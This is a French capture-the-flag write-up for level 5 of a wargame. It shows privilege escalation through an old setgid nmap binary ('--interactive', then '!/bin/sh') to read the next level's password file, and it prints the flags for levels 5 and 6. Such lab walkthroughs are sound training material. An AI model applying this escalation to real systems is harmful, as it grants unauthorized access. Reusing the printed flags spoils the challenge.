 # Write up : Wargames

### Level 5

Consigne :

```
Consignes lvl5 :<br>
Le but de ce challenge est de récupérer un shell via l’exécutable disponible dans votre répertoire courant.<br>

Se connecter à l'adresse suivante : <br />
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;<FONT COLOR="#ff0000">ssh -p 6666 challenge5@game1.marshack.fr</FONT> <br>
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;password : [flag obtenu dans l'épreuve précédente]
```

Connexion 

```bash
ssh -p 6666 challenge5@game1.marshack.fr
password: MARS{UsvVyFSfZZWbi6wgC7dAFyFuR6jQQUhR}
```

Contenu du répertoire

```bash
challenge5@fb0a879ee360:~$ ls

nmap
```

Contrôle de l'uid

```
challenge5@fb0a879ee360:~$ id

uid=1004(challenge5) gid=1004(challenge5) groups=1004(challenge5)
```

Création d'une élévation de privilèges via un ancien binaire nmap.

Les commandes :

```
challenge5@be9f0e178887:~$ cd /home/challenge5
challenge5@be9f0e178887:~$ ./nmap --interactive
```

Vérification de l'élévation de privilèges.

Commande :

```bash
!id
uid=1004(challenge5) gid=1004(challenge5) egid=1005(challenge6) groupes=1004(challenge5)
system() execution of command failed    <=== ne pas tenir compte
```

On voit l'élévation de privilèges

```
egid=1005(challenge6)       <=== on fait partie du groupe challenge6
```

Dans nmap, exécuter /bin/sh pour obtenir un shell

```
!/bin/sh     (nota : /bin/bash ne permet pas l'élévation de privilège)
```

Chercher le password dans /etc/wargames_pass/level6/level6_password

```
cat /etc/wargames_pass/level6/level6_password
     MARS{mMwAr48BXzwavqjItEYk7zNhTBcMGS1S}

```



Résultat : MARS{mMwAr48BXzwavqjItEYk7zNhTBcMGS1S}